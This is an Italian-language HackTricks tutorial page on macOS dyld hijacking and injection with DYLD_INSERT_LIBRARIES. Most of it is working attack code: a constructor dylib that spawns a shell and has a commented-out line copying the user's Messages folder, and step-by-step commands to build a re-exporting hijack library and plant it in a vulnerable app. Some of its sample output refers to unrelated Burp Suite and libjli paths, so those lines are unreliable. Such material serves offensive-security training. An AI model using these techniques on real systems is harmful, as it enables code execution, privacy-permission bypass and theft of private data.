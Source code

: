 # macOS Dyld Hijacking & DYLD\_INSERT\_LIBRARIES

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DYLD\_INSERT\_LIBRARIES Esempio base

**Libreria da iniettare** per eseguire una shell:
```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
printf("[+] dylib injected in %s\n", argv[0]);
execv("/bin/bash", 0);
//system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```
Binary da attaccare:
```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
printf("Hello, World!\n");
return 0;
}
```
Iniezione:
```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```
## Esempio di Dyld Hijacking

Il binario vulnerabile mirato è `/Applications/VulnDyld.app/Contents/Resources/lib/binary`.

{% tabs %}
{% tab title="entitlements" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>
{% endtab %}

{% tab title="LC_RPATH" %}
{% code overflow="wrap" %}
```bash
# Check where are the @rpath locations
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep LC_RPATH -A 2
cmd LC_RPATH
cmdsize 32
path @loader_path/. (offset 12)
--
cmd LC_RPATH
cmdsize 32
path @loader_path/../lib2 (offset 12)
```
{% endcode %}
{% endtab %}

{% tab title="@rpath" %}
{% code overflow="wrap" %}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
name @rpath/lib.dylib (offset 24)
time stamp 2 Thu Jan  1 01:00:02 1970
current version 1.0.0
compatibility version 1.0.0
# Check the versions
```
{% endcode %}
{% endtab %}
{% endtabs %}

Con le informazioni precedenti sappiamo che **non controlla la firma delle librerie caricate** e **sta cercando di caricare una libreria da**:

* `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
* `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

Tuttavia, la prima non esiste:
```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```
Quindi, è possibile hijackarlo! Crea una libreria che **esegue del codice arbitrario ed esporta le stesse funzionalità** della libreria legittima riesportandola. E ricorda di compilarla con le versioni attese:

{% code title="lib.m" %}
```objectivec
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```
{% endcode %}

Compilalo:

{% code overflow="wrap" %}
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```
{% endcode %}

Il percorso di riesportazione creato nella libreria è relativo al caricatore, cambiamo in un percorso assoluto alla libreria da esportare:

{% code overflow="wrap" %}
```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 48
name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 128
name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
{% endcode %}

Infine, copialo nella **posizione hijacked**:

{% code overflow="wrap" %}
```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```
{% endcode %}

E **eseguire** il binario e controllare che la **libreria sia stata caricata**:

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Usage: [...]
</code></pre>

{% hint style="info" %}
Una bella descrizione su come abusare di questa vulnerabilità per sfruttare i permessi della fotocamera di telegram può essere trovata in [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)
{% endhint %}

## Maggiore Scala

Se stai pianificando di provare a iniettare librerie in binari inaspettati, potresti controllare i messaggi di evento per scoprire quando la libreria viene caricata all'interno di un processo (in questo caso rimuovi il printf e l'esecuzione di `/bin/bash`).
```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
